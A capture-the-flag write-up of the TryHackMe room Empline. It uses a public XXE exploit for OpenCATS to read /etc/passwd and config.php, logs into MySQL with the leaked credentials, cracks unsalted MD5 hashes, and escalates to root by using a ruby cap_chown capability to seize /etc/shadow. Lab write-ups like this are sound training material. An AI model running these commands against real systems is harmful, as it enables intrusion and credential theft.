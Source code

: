 This is a writeup on the TryHackMe box, [Empline](https://tryhackme.com/room/empline)

# Enumeration
## Port scanning
After the box is up, we start with nmap:

```nmap -sC -sV -Pn 10.10.142.249```

This command scans the top 1000 ports. We get the following result:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-27 02:03 EST
Nmap scan report for 10.10.142.249
Host is up (0.27s latency).
Not shown: 993 closed ports
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
1301/tcp filtered ci3-software-1
1443/tcp filtered ies-lm
2065/tcp filtered dlsrpn
2190/tcp filtered tivoconnect
3306/tcp open     mysql          MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 51
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, IgnoreSigpipes, LongColumnFlag, FoundRows, Support
sCompression, LongPassword, IgnoreSpaceBeforeParenthesis, ODBCClient, Speaks41ProtocolNew, SupportsTransactions, InteractiveClient, Speaks41P
rotocolOld, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: uLWRskCH#s<n8k5aku,v
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.24 seconds

```

Most interesting ports here are port 80 for http and port 3306 for mysql.
## Web
Heading to the website, we see the following page.

![screenshot](Pasted%20image%2020211227045656.png)

Most of the website is not very intersting, however, we do find an interesting link: `job.empline.thm/careers`. 

We add the following line to `/etc/hosts` 
```
10.10.142.249   empline.thm job.empline.thm
```

and head to `job.empline.thm/careers`

![screenshot](Pasted%20image%2020211227050127.png)

Digging around `job.empline.thm`, we see it's running version 0.9.4 of [opencats](https://www.opencats.org/).
![screenshot](Pasted%20image%2020211227050421.png)

After some googling, we find there's potentially an xxe vulnerability([official notice](https://www.opencats.org/news/2019/july/), [more reading](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)). 

# Foothold
We find the existing [exploit](https://www.exploit-db.com/exploits/50316) on exploitdb. Using the `/etc/passwd` file(`python3 50316.py --url job.empline.thm --file /etc/passwd`), we verify the the website is indeed vulnerable to xxe. Additionally, in the `/etc/passwd` file, we notice an interesting user `george`. 
```
george:x:1002:1002::/home/george:/bin/bash
```
`george` is the only user other than `root` that has a shell. We'll likely escalate to `george` at some point.

Digging around the github repo for opencats, we find the database credentials are likely stored in the `config.php` file([github](https://github.com/opencats/OpenCATS/blob/master/config.php)). Using the same exploit on `config.php`, we find potential database credentials.
```
python3 50316.py --url job.empline.thm --file config.php
```
```
/* Database configuration. */
define('DATABASE_USER', 'james');
define('DATABASE_PASS', '[omitted]');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'opencats');
```

Earlier from nmap, we found the mysql port is also open. We can connect to their database from our kali box
`mysql --host=10.10.142.249 --user=james --password=[omitted]`

After digging around, we find some password hashes in the `opencats` database under the `user` table.

```
MariaDB [opencats]> select user_name, password from user;
+----------------+----------------------------------+
| user_name      | password                         |
+----------------+----------------------------------+
| admin          | b67b5ecc5d8902ba59c65596e4c053ec |
| cats@rootadmin | cantlogin                        |
| george         | [omitted]                        |
| james          | [omitted]                        |
+----------------+----------------------------------+
```

After some quick search in their github repo, we find these are md5 hashes with no salt([lib/Users.php](https://github.com/opencats/OpenCATS/blob/2764566bcb37ebde9e87f9106e9defed3d7d7c0c/lib/Users.php#L679)).

Using a rainbow table online, we can crack the hash to find the password for the user `george`. 

![screenshot](Pasted%20image%2020211227053840.png)

# PrivEsc
After ssh-ing into the the machine as `george`, we find the `user.txt` file under `/home/george`.
```
george@empline:/tmp$ ls -al /home/george
total 32
drwxrwx--- 5 george george 4096 Dec 27 10:39 .
drwxr-xr-x 4 root   root   4096 Jul 20 19:48 ..
-rw------- 1 george george  252 Dec 27 10:39 .bash_history
drwx------ 2 george george 4096 Dec 27 08:25 .cache
drwxr-x--- 3 george george 4096 Dec 27 08:27 .config
drwx------ 3 george george 4096 Dec 27 08:27 .gnupg
-rw------- 1 george george 1019 Dec 27 08:37 .viminfo
-rw-r--r-- 1 root   root     33 Jul 20 19:48 user.txt
```

Using [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to enumerate, we fin the following misconfiguration on `ruby`:
```
Files with capabilities (limited to 50):
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
```
In this case, `ruby` is given the permission to change the ownership of any file([more reading](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_chown)). We can abuse this by changing the owner of `/etc/shadow` to `george` and modifying the root password.
First we need the numeric id of `george`:
```
george@empline:/tmp$ id
uid=1002(george) gid=1002(george) groups=1002(george)
```

Then we can do `ruby -e 'require "fileutils"; FileUtils.chown(1000, 1000, "/etc/shadow")'` to change ownership or `/etc/shadow`.

To change root's password, we can simple do `mkpasswd pass` to generate the hash of the password `pass` and modify `/etc/shadow` to use our new hash.
```
root:BbbQ1kZ5muW8.:18828:0:99999:7:::
```

Using the password we set earlier, we `su root` to get a shell as the root user.
At last, we find `root.txt` under `/root`
```
root@empline:/tmp# ls -al /root
total 36
drwx------  4 root root 4096 Jul 20 19:52 .
drwxr-xr-x 24 root root 4096 Dec 27 07:02 ..
-rw-------  1 root root   57 Dec 27 10:39 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Jul 20 19:49 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 20 19:45 .ssh
-rw-r--r--  1 root root  227 Jul 20 19:48 .wget-hsts
-rw-r--r--  1 root root   33 Jul 20 19:48 root.txt
```
